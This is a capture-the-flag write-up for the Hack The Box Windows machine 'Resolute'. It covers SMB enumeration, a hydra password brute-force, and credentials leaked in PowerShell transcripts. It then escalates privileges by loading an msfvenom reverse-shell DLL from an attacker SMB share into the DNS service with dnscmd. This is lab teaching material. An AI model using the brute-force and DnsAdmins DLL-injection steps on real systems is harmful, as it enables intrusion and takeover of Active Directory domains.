
---
layout: single
title: Resolute write-up
excerpt: "Resolute is a windows box rate as medium"
date: 2020-05-31
classes: wide
header:
  teaser: /asset/htbwriteup/windows/resolute/intro.PNG
  teaser_home_page: true
  icon: /assets/hackthebox.webp
categories:
  - hackthebox
permalink: /htb/htbResolute
tags: [dll injection, dnscmd.exe, smbserver.py]

---

# HTB - Resolute

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/intro.PNG)
Resolute is a windows box rate as medium

---
## Recon

- Running nmap scan give us the following information as below.
    
![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/1.png)

- As windows machine, the interesting part of course the SMB services, let's digging in via enum4linux.
- Don't forget to list all the potential accounts in the recon part. It's helping us to move further you know...
- Here, we have hint on `marko` account. See the description there. `Password set to Welcome123!`

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/2.png)

- Trying to log into `marko` account doesn't work. The credential may be wrong.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/3.png)

- We have the list of usernames right? Let's try brute-force the smb login with `hydra`.
- Yayy, we have the right credential for `melanie` account.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/4.png)

---
## Exploit
- Then, catch the user flag by logging in via `evil-winrm` to melanie account.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/5.png)

- After enumerating the host, we don't meet any hint. Maybe by viewing hidden files give us hint? Let's `dir-Force` and enum for hidden file of `PSTranscripts`.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/6.png)

- In the `PSTranscripts` folder, we have a text file with Resolute name on it. Open the text file, give us hint of `Powershell` script with a potential credential of `ryan` account.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/7.png)

- Then, moving into `ryan` account and see what we can do there.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/8.png)

---
## Privilege escalation

### First method:

- On `ryan` desktop, there is a `note.txt` as below. What does that mean??

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/9.png)

- Enum for the groups information reveal us that ryan has `DnsAdmins` privilege. 
- If the account has `DNSAdmins` in it’s group memberships, then the user belongs to the group and we can abuse his membership to escalate to Administrator rights.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/11.png)

- Based on this [article](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2), we are launching an arbitrary DLL of SYSTEM authority on a DNS server. i.e., we must create a DLL that contains the reverse tcp code and implant it into the `dns.exe` process on the victim's DNS server (DC).
- Building our DLL `shell_reverse_tcp` payload with `msfvenom` and output to `privesc.dll`.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/12.png)

### Impacket’s smb server to the rescue:

- Hosting our payload with `smbserver.py`.
- We chose this as, in most cases, Windows allows UNC paths and samba shares by default. Also, there are times when the victim's AV or Defender can delete the payload if it's uploaded, so we'll stick to the smb server for this one. Nonetheless, working with smb can be difficult on * nix, but thankfully, we have scripts that can make the task a lot simpler. We must use the Impacket smb server to host our payload.

sudo python smbserver.py <**shareName**> <**path/of/share**> eg `sudo smbserver.py share ./`

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/13.png)

### Injecting the DLL in dnscmd.exe into PS:

- `dnscmd.exe < FQDN of DC> /config /serverlevelplugindll \\UNC_path`

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/14.png)

### Listening for connection and restarting dns if necessary:

- Stop and restart the DNS service as below... 

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/15.png)

- Listen for the connection and ... we have Administrator privilege.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/16(root).png)

### Second method:

- Using `windows/smb/psexec_psh` module straight into Admin shell.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/10(root).png)

Thanks...
